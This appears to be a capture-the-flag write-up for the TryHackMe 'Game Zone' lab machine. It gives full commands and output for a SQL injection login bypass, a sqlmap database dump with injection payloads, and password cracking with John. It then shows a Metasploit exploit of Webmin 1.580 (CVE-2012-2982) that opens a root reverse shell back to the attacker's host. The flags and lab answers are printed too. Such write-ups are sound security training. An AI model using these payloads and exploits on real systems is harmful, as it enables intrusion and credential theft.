





# Game Zone

Learn to hack into this machine. Understand how to use SQLMap, crack some passwords, reveal services using a reverse SSH tunnel and escalate your privileges to root!

# Recon

~~~
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 61:ea:89:f1:d4:a7:dc:a5:50:f7:6d:89:c3:af:0b:03 (RSA)
|   256 b3:7d:72:46:1e:d3:41:b6:6a:91:15:16:c9:4a:a5:fa (ECDSA)
|_  256 53:67:09:dc:ff:fb:3a:3e:fb:fe:cf:d8:6d:41:27:ab (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Game Zone
~~~

# [Task 1] Deploy the vulnerable machine

This room will cover SQLi (exploiting this vulnerability manually and via SQLMap), cracking a users hashed password, using SSH tunnels to reveal a hidden service and using a metasploit payload to gain root privileges. 

## What is the name of the large cartoon avatar holding a sniper on the forum?

*Hint: Reverse Image Search*

Asnwer: `agent 47`.

# [Task 2] Obtain access via SQLi

In this task you will understand more about SQL (structured query language) and how you can potentially manipulate queries to communicate with the database.

## #1

SQL is a standard language for storing, editing and retrieving data in databases. A query can look like so:

~~~
SELECT * FROM users WHERE username = :username AND password := password
~~~

In our GameZone machine, when you attempt to login, it will take your inputted values from your username and password, then insert them directly into the query above. If the query finds data, you'll be allowed to login otherwise it will display an error message.

Here is a potential place of vulnerability, as you can input your username as another SQL query. This will take the query write, place and execute it.

## #2

Lets use what we've learnt above, to manipulate the query and login without any legitimate credentials.

If we have our username as admin and our password as: `' or 1=1 -- -` it will insert this into the query and authenticate our session.

The SQL query that now gets executed on the web server is as follows:

~~~
SELECT * FROM users WHERE username = admin AND password := ' or 1=1 -- -
~~~

The extra SQL we inputted as our password has changed the above query to break the initial query and proceed (with the admin user) if 1==1, then comment the rest of the query to stop it breaking.

## #3

**Instructions**

GameZone doesn't have an admin user in the database, however you can still login without knowing any credentials using the inputted password data we used in the previous question.

Use `' or 1=1 -- -` as your username and leave the password blank.

When you've logged in, what page do you get redirected to?

**Answer**

Entering `' or 1=1 -- -` in the username field with a blank password allows to move forward and redirects to http://10.10.60.68/portal.php.

# [Task 3] Using SQLMap

SQLMap is a popular open-source, automatic SQL injection and database takeover tool. This comes pre-installed on all version of Kali Linux or can be manually downloaded and installed [here](https://github.com/sqlmapproject/sqlmap).

There are many different types of SQL injection (boolean/time based, etc..) and SQLMap automates the whole process trying different techniques.

## #1

**Instructions**

We're going to use SQLMap to dump the entire database for GameZone.

Using the page we logged into earlier, we're going point SQLMap to the game review search feature.

First we need to intercept a request made to the search feature using [BurpSuite](https://tryhackme.com/room/learnburp).

Save this request into a text file. We can then pass this into SQLMap to use our authenticated user session.

~~~
sqlmap -r request.txt --dbms=mysql --dump
~~~

* `-r` uses the intercepted request you saved earlier
* `--dbms` tells SQLMap what type of database management system it is
* `--dump` attempts to outputs the entire database

SQLMap will now try different methods and identify the one thats vulnerable. Eventually, it will output the database.

In the users table, what is the hashed password?

**Answer**

~~~
$ /data/src/sqlmap-dev/sqlmap.py -r request.xml --dbms=mysql --dump
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.4.5.19#dev}
|_ -| . [(]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 18:21:30 /2020-06-08/

[18:21:30] [INFO] parsing HTTP request from 'request.xml'
[18:21:31] [INFO] testing connection to the target URL
[18:21:31] [INFO] checking if the target is protected by some kind of WAF/IPS
[18:21:31] [INFO] testing if the target URL content is stable
[18:21:31] [INFO] target URL content is stable
[18:21:31] [INFO] testing if POST parameter 'searchitem' is dynamic
[18:21:31] [WARNING] POST parameter 'searchitem' does not appear to be dynamic
[18:21:31] [INFO] heuristic (basic) test shows that POST parameter 'searchitem' might be injectable (possible DBMS: 'MySQL')
[18:21:32] [INFO] heuristic (XSS) test shows that POST parameter 'searchitem' might be vulnerable to cross-site scripting (XSS) attacks
[18:21:32] [INFO] testing for SQL injection on POST parameter 'searchitem'
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] 
[18:21:37] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[18:21:37] [WARNING] reflective value(s) found and filtering out
[18:21:38] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[18:21:38] [INFO] testing 'Generic inline queries'
[18:21:38] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[18:21:41] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[18:21:41] [INFO] POST parameter 'searchitem' appears to be 'OR boolean-based blind - WHERE or HAVING clause (MySQL comment)' injectable (with --string="11")
[18:21:41] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[18:21:41] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
[18:21:41] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXP)'
[18:21:41] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (EXP)'
[18:21:41] [INFO] testing 'MySQL >= 5.7.8 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (JSON_KEYS)'
[18:21:41] [INFO] testing 'MySQL >= 5.7.8 OR error-based - WHERE or HAVING clause (JSON_KEYS)'
[18:21:42] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[18:21:42] [INFO] testing 'MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[18:21:42] [INFO] POST parameter 'searchitem' is 'MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)' injectable 
[18:21:42] [INFO] testing 'MySQL inline queries'
[18:21:42] [INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
[18:21:42] [INFO] testing 'MySQL >= 5.0.12 stacked queries'
[18:21:42] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP - comment)'
[18:21:42] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP)'
[18:21:42] [INFO] testing 'MySQL < 5.0.12 stacked queries (heavy query - comment)'
[18:21:42] [INFO] testing 'MySQL < 5.0.12 stacked queries (heavy query)'
[18:21:42] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[18:21:53] [INFO] POST parameter 'searchitem' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
[18:21:53] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[18:21:53] [INFO] testing 'MySQL UNION query (NULL) - 1 to 20 columns'
[18:21:53] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[18:21:53] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[18:21:53] [INFO] target URL appears to have 3 columns in query
[18:21:53] [INFO] POST parameter 'searchitem' is 'MySQL UNION query (NULL) - 1 to 20 columns' injectable
[18:21:53] [WARNING] in OR boolean-based injection cases, please consider usage of switch '--drop-set-cookie' if you experience any problems during data retrieval
POST parameter 'searchitem' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
sqlmap identified the following injection point(s) with a total of 90 HTTP(s) requests:
---
Parameter: searchitem (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: searchitem=-3721' OR 2394=2394#

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: searchitem=test' OR (SELECT 5097 FROM(SELECT COUNT(*),CONCAT(0x71786a7a71,(SELECT (ELT(5097=5097,1))),0x716a767671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- DxCi

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: searchitem=test' AND (SELECT 6401 FROM (SELECT(SLEEP(5)))AwHg)-- GVqd

    Type: UNION query
    Title: MySQL UNION query (NULL) - 3 columns
    Payload: searchitem=test' UNION ALL SELECT NULL,NULL,CONCAT(0x71786a7a71,0x544568716b59614c494875694f624a49546579797a4258556451587141436978496d4846546c7946,0x716a767671)#
---
[18:22:01] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0
[18:22:02] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[18:22:02] [INFO] fetching current database
[18:22:02] [INFO] fetching tables for database: 'db'
[18:22:02] [INFO] fetching columns for table 'post' in database 'db'
[18:22:02] [INFO] fetching entries for table 'post' in database 'db'
Database: db
Table: post
[5 entries]
+------+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| id   | name                           | description                                                                                                                                                                                            |
+------+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| 1    | Mortal Kombat 11               | Its a rare fighting game that hits just about every note as strongly as Mortal Kombat 11 does. Everything from its methodical and deep combat.                                                         |
| 5    | Call of Duty: Modern Warfare 2 | When you look at the total package, Call of Duty: Modern Warfare 2 is hands-down one of the best first-person shooters out there, and a truly amazing offering across any system.                      |
| 2    | Marvel Ultimate Alliance 3     | Switch owners will find plenty of content to chew through, particularly with friends, and while it may be the gaming equivalent to a Hulk Smash, that isnt to say that it isnt a rollicking good time. |
| 3    | SWBF2 2005                     | Best game ever                                                                                                                                                                                         |
| 4    | Hitman 2                       | Hitman 2 doesnt add much of note to the structure of its predecessor and thus feels more like Hitman 1.5 than a full-blown sequel. But thats not a bad thing.                                          |
+------+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+

[18:22:02] [INFO] table '`db`.post' dumped to CSV file '/home/unknown/.local/share/sqlmap/output/10.10.60.68/dump/db/post.csv'
[18:22:02] [INFO] fetching columns for table 'users' in database 'db'
[18:22:02] [INFO] fetching entries for table 'users' in database 'db'
[18:22:02] [INFO] recognized possible password hashes in column 'pwd'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] y
[18:22:18] [INFO] writing hashes to a temporary file '/tmp/sqlmap2g687_oi31953/sqlmaphashes-1al4sxhr.txt' 
do you want to crack them via a dictionary-based attack? [Y/n/q] 
[18:22:37] [INFO] using hash method 'sha256_generic_passwd'
what dictionary do you want to use?
[1] default dictionary file '/data/src/sqlmap-dev/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 2
what's the custom dictionary's location?
/data/src/wordlists/rockyou.txt
[18:23:21] [INFO] using custom dictionary
do you want to use common password suffixes? (slow!) [y/N] 
[18:23:31] [INFO] starting dictionary-based cracking (sha256_generic_passwd)
[18:23:31] [INFO] starting 8 processes 
[18:23:42] [INFO] cracked password 'videogamer124' for user 'agent47'                                                
Database: db                                                                                                         
Table: users
[1 entry]
+----------------------------------------------------------------------------------+----------+
| pwd                                                                              | username |
+----------------------------------------------------------------------------------+----------+
| ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14 (videogamer124) | agent47  |
+----------------------------------------------------------------------------------+----------+

[18:24:26] [INFO] table '`db`.users' dumped to CSV file '/home/unknown/.local/share/sqlmap/output/10.10.60.68/dump/db/users.csv'
[18:24:26] [INFO] fetched data logged to text files under '/home/unknown/.local/share/sqlmap/output/10.10.60.68'

[*] ending @ 18:24:26 /2020-06-08/
~~~

Answer: `ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14`

## #2 - What was the username associated with the hashed password?

Answer: `agent47`

## #3 - What was the other table name?

Answer: `post`

# [Task 4] Cracking a password with JohnTheRipper

John the Ripper (JTR) is a fast, free and open-source password cracker. This is also pre-installed on all Kali Linux machines.

We will use this program to crack the hash we obtained earlier. JohnTheRipper is 15 years old and other programs such as HashCat are one of several other cracking programs out there. 

This program works by taking a wordlist, hashing it with the specified algorithm and then comparing it to your hashed password. If both hashed passwords are the same, it means it has found it. You cannot reverse a hash, so it needs to be done by comparing hashes.

## #1

If you are using a low-powered laptop, you can deploy a high spec'd Kali Linux machine on TryHackMe and control it in your browser. Deploy your own [here](https://tryhackme.com/room/kali)!

Once you have JohnTheRipper installed you can run it against your hash using the following arguments:

~~~
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA256
~~~

hash.txt - contains a list of your hashes (in your case its just 1 hash)
* `--wordlist` - is the wordlist you're using to find the dehashed value
* `--format` - is the hashing algorithm used. In our case its hashed using SHA256.

## #2 - What is the de-hashed password?

Notice that we have previously already cracked the password directly in sqlmap:

~~~
ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14 (videogamer124)
~~~

Let's do it with John:

~~~
$ echo "ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14" > agent47.hash
$ /data/src/john/run/john agent47.hash --wordlist=/data/src/wordlists/rockyou.txt --format=Raw-SHA256
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA256 [SHA256 256/256 AVX2 8x])
Warning: poor OpenMP scalability for this hash type, consider --fork=8
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
videogamer124    (?)
1g 0:00:00:00 DONE (2020-06-08 18:34) 4.166g/s 12561Kp/s 12561Kc/s 12561KC/s vimivera..tyler912
Use the "--show --format=Raw-SHA256" options to display all of the cracked passwords reliably
Session completed. 
~~~

Answer: `videogamer124`

## #3 - Now you have a password and username. Try SSH'ing onto the machine. What is the user flag?

Let's connect with `ssh agent47@10.10.60.68`.

~~~
$ ssh agent47@10.10.60.68
agent47@gamezone:~$ cat /home/agent47/user.txt 
649ac17b1480ac13ef1e4fa579dac95c
~~~

# [Task 5] Exposing services with reverse SSH tunnels

Reverse SSH port forwarding specifies that the given port on the remote server host is to be forwarded to the given host and port on the local side.

`-L` is a local tunnel (YOU <-- CLIENT). If a site was blocked, you can forward the traffic to a server you own and view it. For example, if imgur was blocked at work, you can do `ssh -L 9000:imgur.com:80 user@example.com`. Going to `localhost:9000` on your machine, will load imgur traffic using your other server.

`-R` is a remote tunnel (YOU --> CLIENT). You forward your traffic to the other server for others to view. Similar to the example above, but in reverse.

## #1 	

**Instructions**

We will use a tool called `ss` to investigate sockets running on a host.

If we run `ss -tulpn` it will tell us what socket connections are running

Argument | Description
---|---
`-t` | Display TCP sockets
`-u` | Display UDP sockets
`-l` | Displays only listening sockets
`-p` | Shows the process using the socket
`-n` | Doesn't resolve service names

How many TCP sockets are running?

**Answer**

Notice the results from `ss` are the same as `netstat`. However, `netstat` is not always installed on servers.

~~~
agent47@gamezone:~$ ss -tulpn
Netid  State      Recv-Q Send-Q           Local Address:Port                          Peer Address:Port              
udp    UNCONN     0      0                            *:10000                                    *:*                  
udp    UNCONN     0      0                            *:68                                       *:*                  
tcp    LISTEN     0      80                   127.0.0.1:3306                                     *:*                  
tcp    LISTEN     0      128                          *:10000                                    *:*                  
tcp    LISTEN     0      128                          *:22                                       *:*                  
tcp    LISTEN     0      128                         :::80                                      :::*                  
tcp    LISTEN     0      128                         :::22                                      :::*                  
agent47@gamezone:~$ netstat -utan
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:10000           0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN     
tcp        0    324 10.10.60.68:22          10.8.50.72:36538        ESTABLISHED
tcp6       0      0 :::80                   :::*                    LISTEN     
tcp6       0      0 :::22                   :::*                    LISTEN     
udp        0      0 0.0.0.0:10000           0.0.0.0:*                          
udp        0      0 0.0.0.0:68              0.0.0.0:*                          
agent47@gamezone:~$ 
~~~

Answer: `5`

## #2 	

**Instructions**

We can see that a service running on port 10000 is blocked via a firewall rule from the outside (we can see this from the IPtable list). However, Using an SSH Tunnel we can expose the port to us (locally)!

From our local machine, run `ssh -L 10000:localhost:10000 <username>@<ip>`

Once complete, in your browser type "localhost:10000" and you can access the newly-exposed webserver.

What is the name of the exposed CMS?

**Answer**

Let's mount our tunnel:

~~~
ssh -L 10000:127.0.0.1:10000 agent47@10.10.60.68
~~~

Now, browsing http://127.0.0.1:10000 shows a Webmin portal.

Answer: `Webmin`.

## #3 - What is the CMS version?

Let's ask Nmap:

~~~
$ nmap -sV -p 10000 127.0.0.1
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-08 18:56 CEST
Nmap scan report for localhost (127.0.0.1)
Host is up (0.00020s latency).

PORT      STATE SERVICE VERSION
10000/tcp open  http    MiniServ 1.580 (Webmin httpd)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 36.55 seconds
~~~

We can also connect to the interface with the credentials found previously:

Answer: `1.580`

# [Task 6] Privilege Escalation with Metasploit

Using the CMS dashboard version, use Metasploit to find a payload to execute against the machine.

If you are inexperienced with Metasploit, complete the Metasploit room first.

## #1 - What is the root flag?

*Hint: The correct payload will also give you root access. Flag located at /root/root.txt*

Searching on Google for exploits affecting Webmin version 1.580, we find that the corresponding CVE is CVE-2012-2982 (https://www.exploit-db.com/exploits/21851).

Let's search for CVE-2012-2982:

~~~
$ msfconsole -q
msf5 > search CVE-2012-2982

Matching Modules
================

   #  Name                                      Disclosure Date  Rank       Check  Description
   -  ----                                      ---------------  ----       -----  -----------
   0  exploit/unix/webapp/webmin_show_cgi_exec  2012-09-06       excellent  Yes    Webmin /file/show.cgi Remote Command Execution

~~~

Let's select it and set a reverse shell for our payload:

~~~
msf5 > use 0
msf5 exploit(unix/webapp/webmin_show_cgi_exec) > set payload cmd/unix/reverse
payload => cmd/unix/reverse
msf5 exploit(unix/webapp/webmin_show_cgi_exec) > show options

Module options (exploit/unix/webapp/webmin_show_cgi_exec):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD                   yes       Webmin Password
   Proxies                    no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT     10000            yes       The target port (TCP)
   SSL       true             yes       Use SSL
   USERNAME                   yes       Webmin Username
   VHOST                      no        HTTP server virtual host

Payload options (cmd/unix/reverse):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Webmin 1.580

~~~

Now, let's set up our variables:

~~~
msf5 exploit(unix/webapp/webmin_show_cgi_exec) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf5 exploit(unix/webapp/webmin_show_cgi_exec) > set ssl false
[!] Changing the SSL option's value may require changing RPORT!
ssl => false
msf5 exploit(unix/webapp/webmin_show_cgi_exec) > set rpot 10000
rpot => 10000
msf5 exploit(unix/webapp/webmin_show_cgi_exec) > set username agent47
username => agent47
msf5 exploit(unix/webapp/webmin_show_cgi_exec) > set password videogamer124
password => videogamer124
msf5 exploit(unix/webapp/webmin_show_cgi_exec) > set lhost 10.8.50.72
lhost => 10.8.50.72
~~~

We are all set. Let's exploit.

~~~
msf5 exploit(unix/webapp/webmin_show_cgi_exec) > exploit 

[*] Started reverse TCP double handler on 10.8.50.72:4444 
[*] Attempting to login...
[+] Authentication successfully
[+] Authentication successfully
[*] Attempting to execute the payload...
[+] Payload executed successfully
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo wwkNQ0H13ZRfhiYE;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "wwkNQ0H13ZRfhiYE\r\n"
[*] Matching...
[*] B is input...
[*] Command shell session 1 opened (10.8.50.72:4444 -> 10.10.60.68:32784) at 2020-06-08 19:59:09 +0200

pwd
/usr/share/webmin/file/
whoami
root
cat /root/root.txt
a4b945830144bdd71908d12d902adeee
~~~

Root flag: `a4b945830144bdd71908d12d902adeee`